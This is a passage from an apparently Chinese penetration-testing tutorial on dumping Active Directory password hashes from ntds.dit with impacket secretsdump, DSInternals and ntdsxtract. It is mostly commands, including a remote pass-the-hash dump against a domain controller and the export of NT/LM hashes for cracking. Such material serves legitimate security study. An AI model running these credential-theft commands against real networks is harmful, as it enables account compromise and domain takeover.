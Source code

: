 ```bash
./secretsdump.py -system /root/SYSTEM -ntds /root/ntds.dit LOCAL

# system：表示系统 hive 文件的路径（SYSTEM）
# ntds：表示 dit 文件的路径（ntds.dit）
```

此外，impacket 可以通过使用计算机帐户及其哈希进行身份验证从 NTDS.DIT 文件远程转储域密码哈希。
```bash
./secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:0f49aab58dd8fb314e268c4c6a65dfc9 -just-dc PENTESTLAB/dc\$@10.0.0.1
```

**DSInternals PowerShell**

- 工具地址 : [MichaelGrafnetter/DSInternals](https://github.com/MichaelGrafnetter/DSInternals)

DSInternals PowerShell 模块提供了构建在框架之上的易于使用的 cmdlet。主要功能包括离线 ntds.dit 文件操作以及通过目录复制服务（DRS）远程协议查询域控制器。
```powershell
Save-Module DSInternals -Path C:\Windows\System32\WindowsPowershell\v1.0\Modules
Install-Module DSInternals
Import-Module DSInternals
Get-Bootkey -SystemHivePath 'C:\Users\sanje\Desktop\NTDS\SYSTEM'
Get-ADDBAccount -All -DBPath 'C:\Users\sanje\Desktop\NTDS\ntds.dit' -Bootkey $key
```

**Ntdsxtract**

- 工具地址 : [libyal/libesedb](https://github.com/libyal/libesedb/)
- 相关文章 : [Extracting Hashes and Domain Info From ntds.dit](https://blog.ropnop.com/extracting-hashes-and-domain-info-from-ntds-dit/)

首先我们需要从 NTDS.dit 文件中提取表格，这里我们可以通过 libesedb-tools 中的 esedbexport 来帮我们完成。Libesedb 是一个用于访问可扩展存储引擎（ESE）数据库文件（EDB）格式的库。当前，ESE 数据库格式被应用于许多不同的应用程序上，如 Windows Search，Windows Mail，Exchange，Active Directory（NTDS.dit）等。

安装
```bash
get https://github.com/libyal/libesedb/releases/download/20200418/libesedb-experimental-20200418.tar.gz
tar xf libesedb-experimental-20200418.tar.gz
cd libesedb-20200418
apt-get install -y autoconf automake autopoint libtool pkg-config
./configure
make
make install
ldconfig
```

利用该工具从 ntds.dit 文件中转储表格
```bash
esedbexport -m tables /root/Desktop/NTDS/ntds.dit
```

下载 ntdsxtract 提取用户信息和密码哈希值
```bash
git clone https://github.com/csababarta/ntdsxtract.git
cd ntdsxtract
python setup.py build && python setup.py install

dsusers.py ntds.dit.export/datatable.4 ntds.dit.export/link_table.6 data --syshive /root/Desktop/NTDS/SYSTEM --passwordhashes --pwdformat john --ntoutfile nthash.txt --lmoutfile lmhash.txt
```
